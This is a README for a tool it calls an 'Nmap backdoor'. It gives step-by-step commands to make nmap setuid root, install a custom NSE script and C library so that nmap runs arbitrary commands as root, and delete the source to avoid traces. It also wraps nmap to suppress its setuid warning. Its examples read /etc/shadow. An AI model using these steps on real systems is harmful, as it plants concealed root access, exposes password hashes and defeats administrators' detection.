


# Nmap backdoor
Backdoor that leverages Nmap with setuid permissions to execute commands as root through a Lua-loaded C library

Special thanks to [hackerfantastic](https://x.com/hackerfantastic) for giving me some pointers to make this work and for telling me the story of the old method (patched about 20 years ago) that used `sudo chmod 4755 /usr/bin/nmap`, `nmap --interactive`, and `!sh` to get a root shell, which is the inspiration for this new one
### Steps:
**0. Required installs:**
```
sudo apt install gcc libcap-dev liblua5.4-dev
```
**1. Compilation:**
```
gcc -shared -fPIC -o socket.so socket.c -I/usr/include/lua5.4 -llua5.4
```
**2. Permissions**:
```
sudo chmod 4755 /usr/bin/nmap
```
**3. Prepare files:**
```
sudo cp socket.nse /usr/share/nmap/scripts/ && sudo cp socket.so /usr/share/nmap/nselib/ && sudo nmap --script-updatedb
```
Or if you don't want to leave any traces of the files, you can use:
```
rm socket.c && sudo mv socket.nse /usr/share/nmap/scripts/ && sudo mv socket.so /usr/share/nmap/nselib/ && sudo nmap --script-updatedb
```
Optionally, if you want to remove the nmap warning flag about the setuid, you can do something like this:
```
sudo mv /usr/bin/nmap /usr/bin/nmap_ && printf '%s\n' '#!/bin/bash' 'exec /usr/bin/nmap_ "$@" 2> >(grep -v -F "setuid" >&2)' | sudo tee /usr/bin/nmap > /dev/null && sudo chmod 755 /usr/bin/nmap
```
**Example commands:**
```
nmap -p 631 --script socket.nse --script-args socket.command=whoami localhost
```

```
nmap -p 631 --script socket.nse --script-args socket.command="cat /etc/shadow" localhost
```

### Disclaimer
This is a tool for educational / personal use only — the author is not responsible for any misuse

Shield: [![CC BY-NC-SA 4.0][cc-by-nc-sa-shield]][cc-by-nc-sa]

This work is licensed under a
[Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License][cc-by-nc-sa].

[![CC BY-NC-SA 4.0][cc-by-nc-sa-image]][cc-by-nc-sa]

[cc-by-nc-sa]: http://creativecommons.org/licenses/by-nc-sa/4.0/
[cc-by-nc-sa-image]: https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png
[cc-by-nc-sa-shield]: https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg
